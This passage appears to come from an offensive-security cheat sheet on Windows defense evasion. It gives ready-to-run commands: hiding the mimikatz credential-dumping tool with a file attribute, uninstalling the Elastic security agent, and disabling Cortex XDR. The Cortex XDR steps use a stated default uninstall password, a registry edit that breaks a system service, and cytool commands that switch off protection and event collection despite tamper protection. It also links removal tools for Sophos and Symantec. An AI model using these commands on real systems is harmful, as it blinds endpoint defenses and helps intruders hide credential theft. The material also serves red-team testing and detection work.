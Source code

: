 > Sets (+) or clears (-) the Hidden file attribute. If a file uses this attribute set, you must clear the attribute before you can change any other attributes for the file.

```ps1
PS> attrib +h mimikatz.exe
```

## Disable Antivirus and Security

### Antivirus Removal

* [Sophos Removal Tool.ps1](https://github.com/ayeskatalas/Sophos-Removal-Tool/)
* [Symantec CleanWipe](https://knowledge.broadcom.com/external/article/178870/download-the-cleanwipe-removal-tool-to-u.html)
* [Elastic EDR/Security](https://www.elastic.co/guide/en/fleet/current/uninstall-elastic-agent.html)
    ```ps1
    cd "C:\Program Files\Elastic\Agent\"
    PS C:\Program Files\Elastic\Agent> .\elastic-agent.exe uninstall
    Elastic Agent will be uninstalled from your system at C:\Program Files\Elastic\Agent. Do you want to continue? [Y/n]:Y
    Elastic Agent has been uninstalled.
    ```
* [Cortex XDR](https://mrd0x.com/cortex-xdr-analysis-and-bypass/)
    ```ps1
    # Global uninstall password: Password1
    Password hash is located in C:\ProgramData\Cyvera\LocalSystem\Persistence\agent_settings.db
    Look for PasswordHash, PasswordSalt or password, salt strings.

    # Disable Cortex: Change the DLL to a random value, then REBOOT
    reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters /t REG_EXPAND_SZ /v ServiceDll /d nothing.dll /f

    # Disables the agent on startup (requires reboot to work)
    cytool.exe startup disable

    # Disables protection on Cortex XDR files, processes, registry and services
    cytool.exe protect disable

    # Disables Cortex XDR (Even with tamper protection enabled)
    cytool.exe runtime disable

    # Disables event collection
    cytool.exe event_collection disable
    ```
